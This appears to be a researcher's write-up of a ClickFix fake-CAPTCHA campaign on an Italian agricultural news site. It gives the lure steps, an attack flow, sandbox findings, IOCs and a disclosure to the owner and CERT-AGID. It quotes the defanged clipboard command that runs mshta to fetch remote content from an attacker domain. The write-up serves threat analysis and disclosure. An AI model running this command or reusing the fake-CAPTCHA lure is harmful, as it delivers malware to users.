



# ClickFix campaign - informatoreagrario.it

**Date:** 03/09/2026  
**Type:** ClickFix / Fake CAPTCHA  
**Execution:** mshta.exe  
**Status:** Active at time of analysis

## What I found

While checking `informatoreagrario[.]it`, I found a fake CAPTCHA asking
the user to complete a verification by pressing:

`Win + R` → `Ctrl + V` → `Enter`
### Fake CAPTCHA

The fake verification prompt observed during the analysis:

Instead of following the instructions, I checked the clipboard content.

### Clipboard content

The command copied to the clipboard was inspected before execution:

The following command had been copied:

`mshta hxxp://timelevel12[.]com/big`

I reproduced the behavior inside ANY.RUN to inspect the execution and
network activity.

## Attack flow

    informatoreagrario[.]it
              |
              v
        Fake CAPTCHA
              |
              v
      Clipboard command
              |
              v
          Win + R
              |
              v
          mshta.exe
              |
              v
     timelevel12[.]com/big

## Sandbox findings

ANY.RUN detected the activity as ClickFix / phishing.

### ANY.RUN detection

ANY.RUN identified the secondary domain as a suspected phishing domain:

Main findings from the session:

- `timelevel12[.]com` flagged as suspected phishing domain
- `mshta.exe` used to retrieve remote content
- MITRE ATT&CK `T1566 - Phishing`
- Suricata alert `ET MALWARE EtherHiding Exfil M2`
- Network activity involving `104.18.40[.]153:443`

Public ANY.RUN session:

https://app.any.run/tasks/9ee75fbf-1fc7-4690-8e22-2700abe900df

## IOCs

| Type | Value |
|---|---|
| Domain | `timelevel12[.]com` |
| URL | `hxxp://timelevel12[.]com/big` |
| IP observed | `104.18.40[.]153` |
| Process | `mshta.exe` |

## Disclosure

After confirming the behavior, I contacted L'Informatore Agrario by
phone and reported what I had found.

I was told that `informatoreagrario.it` had been discontinued in favor
of another web portal and that they were not aware of the campaign.

At the time of my analysis, however, the domain was still reachable
and indexed by search engines.

I also submitted the findings to CERT-AGID.

## Evidence

Screenshots from the sandbox session are available in the
`screenshots/` directory.

## Notes

This repository documents what I directly observed during the analysis.
Domains and URLs are defanged to avoid accidental access.

Research performed for defensive and educational purposes.

---

Andrea Salvadori
